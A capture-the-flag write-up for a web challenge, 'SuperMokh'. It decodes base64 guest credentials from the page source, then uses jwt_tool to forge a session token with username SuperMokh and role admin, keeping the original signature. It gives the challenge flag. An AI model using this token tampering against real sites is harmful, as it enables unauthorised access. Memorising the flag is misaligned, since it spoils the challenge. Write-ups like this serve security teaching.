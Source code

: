 # SuperMokh

> Category: Web Exploitation🕸️

![img](desc.png)


## 🔍 Overview

Visiting the page shows us the login form.

![img](page.png)

Try to view the page source reveals some hints:

![img](source.png)

## ✨ Solution

Decode the base64:
```
┌──(elitemi24㉿IffatAcer3)-[~]
└─$ echo "Z3Vlc3Q6U2VsYW5nb3IxOTcyXzE5ODc=" | base64 -d
guest:Selangor1972_1987
```

Use the credentials to login to the page. In the page, we are not able to view the flag due to our current role is guest:

![img](login.png)

Try to view the cookies of the page:

![img](cookies.png)

It is a <code>JWT</code>, try to decode it first:
```
┌──(elitemi24㉿IffatAcer3)-[~]
└─$ jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0Iiwicm9sZSI6InZpc2l0b3IiLCJpYXQiOjE3NTY3MjQxMTksImV4cCI6MTc1NjcyNzcxOX0.QExhyMIhUDPVbcJYwkjduGn5MKFycbBrQskuD1c415g

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.3.0                \______|             @ticarpi

/home/elitemi24/.jwt_tool/jwtconf.ini
Original JWT:

=====================
Decoded Token Values:
=====================

Token header values:
[+] typ = "JWT"
[+] alg = "HS256"

Token payload values:
[+] username = "guest"
[+] role = "visitor"
[+] iat = 1756724119    ==> TIMESTAMP = 2025-09-01 18:55:19 (UTC)
[+] exp = 1756727719    ==> TIMESTAMP = 2025-09-01 19:55:19 (UTC)

Seen timestamps:
[*] iat was seen
[*] exp is later than iat by: 0 days, 1 hours, 0 mins

----------------------
JWT common timestamps:
iat = IssuedAt
exp = Expires
nbf = NotBefore
----------------------
```

We can see that the current username is guest and our role is only visitor. In the page, there's actually a hint that only <code>SuperMokh</code> can access the flag. So, we need to try change the username to <code>SuperMokh</code> and the role to <code>admin</code>:
```
┌──(elitemi24㉿IffatAcer3)-[/mnt/d/CTF]
└─$ jwt_tool eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0Iiwicm9sZSI6InZpc2l0b3IiLCJpYXQiOjE3NTY3MjQxMTksImV4cCI6MTc1NjcyNzcxOX0.QExhyMIhUDPVbcJYwkjduGn5MKFycbBrQskuD1c415g -T

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.3.0                \______|             @ticarpi

/home/elitemi24/.jwt_tool/jwtconf.ini
Original JWT:


====================================================================
This option allows you to tamper with the header, contents and
signature of the JWT.
====================================================================

Token header values:
[1] typ = "JWT"
[2] alg = "HS256"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] username = "guest"
[2] role = "visitor"
[3] iat = 1756724119    ==> TIMESTAMP = 2025-09-01 18:55:19 (UTC)
[4] exp = 1756727719    ==> TIMESTAMP = 2025-09-01 19:55:19 (UTC)
[5] *ADD A VALUE*
[6] *DELETE A VALUE*
[7] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of username is: guest
Please enter new value and hit ENTER
> SuperMokh
[1] username = "SuperMokh"
[2] role = "visitor"
[3] iat = 1756724119    ==> TIMESTAMP = 2025-09-01 18:55:19 (UTC)
[4] exp = 1756727719    ==> TIMESTAMP = 2025-09-01 19:55:19 (UTC)
[5] *ADD A VALUE*
[6] *DELETE A VALUE*
[7] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 2

Current value of role is: visitor
Please enter new value and hit ENTER
> admin
[1] username = "SuperMokh"
[2] role = "admin"
[3] iat = 1756724119    ==> TIMESTAMP = 2025-09-01 18:55:19 (UTC)
[4] exp = 1756727719    ==> TIMESTAMP = 2025-09-01 19:55:19 (UTC)
[5] *ADD A VALUE*
[6] *DELETE A VALUE*
[7] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_a809fb08b1fea9795621f8e15494424b - Tampered token:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IlN1cGVyTW9raCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc1NjcyNDExOSwiZXhwIjoxNzU2NzI3NzE5fQ.QExhyMIhUDPVbcJYwkjduGn5MKFycbBrQskuD1c415g
```

Now, change the current JWT to the new JWT, then reload the page:

![img](supermokh.png)

Try to view the flag:

![flag](flag.png)

<details><summary><b>🏳️ Flag:</b></summary><b>3108{m0kht4r_d4h4r1_l3g3nd_n3v3r_d13s}</b></details>